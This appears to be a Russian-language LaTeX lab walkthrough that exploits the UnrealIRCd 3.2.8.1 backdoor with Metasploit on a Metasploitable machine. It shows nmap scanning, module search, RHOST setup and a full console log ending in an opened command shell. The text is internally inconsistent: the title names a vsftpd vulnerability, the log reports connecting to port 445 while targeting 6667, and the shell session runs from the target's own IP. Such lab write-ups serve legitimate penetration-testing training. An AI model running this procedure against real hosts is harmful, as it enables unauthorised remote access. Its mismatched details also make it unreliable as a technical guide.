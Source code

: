 \documentclass[10pt,a4paper]{article}
\begin{document}
\paragraph{Получить консоль используя уязвимость в vsftpd}
~

\begin{enumerate}
\item Сканируем целевую машину с целью определить версию irc
\item Осуществляем поиск подходящего эксплойта
\item Устанавливаем параметры эксплойта (rhost)
\item Запускаем эксплойт
\end{enumerate}

\begin{verbatim}
msf exploit(vsftpd_234_backdoor) > nmap 192.168.0.155 -sV -p 6667
[*] exec: nmap 192.168.0.155 -sV -p 6667

Starting Nmap 6.47 ( http://nmap.org ) at 2015-06-03 07:15 EDT
Nmap scan report for 192.168.0.155
Host is up (0.00020s latency).
PORT     STATE SERVICE VERSION
6667/tcp open  irc     Unreal ircd
MAC Address:  B8:C6:8E:A2:E3:38 (samsung Computer Systems)
Service Info: Host: irc.Metasploitable.LAN

Service detection performed. Please report any incorrect results 
at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds


msf exploit(vsftpd_234_backdoor) > search unreal

Matching Modules
================

   Name                                        Disclosure Date  
   Rank       Description
   ----                                        ---------------  
   ----       -----------
   exploit/linux/games/ut2004_secure           2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Linux)
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       
   excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution
   exploit/windows/games/ut2004_secure         2004-06-18       
   good       Unreal Tournament 2004 "secure" Overflow (Win32)

msf exploit(vsftpd_234_backdoor) > use exploit/unix/irc/
unreal_ircd_3281_backdoor 
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.0.155
RHOST => 192.168.0.155
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.0.155:445...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your 
    hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve 
    your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 9BgYY1xkmWTTKmbM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "9BgYY1xkmWTTKmbM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.0.155:6667 -> 
192.168.0.155:59388) at 2015-06-14 07:21:04 -0400

hostname
metasploitable
\end{verbatim}
\end{document}
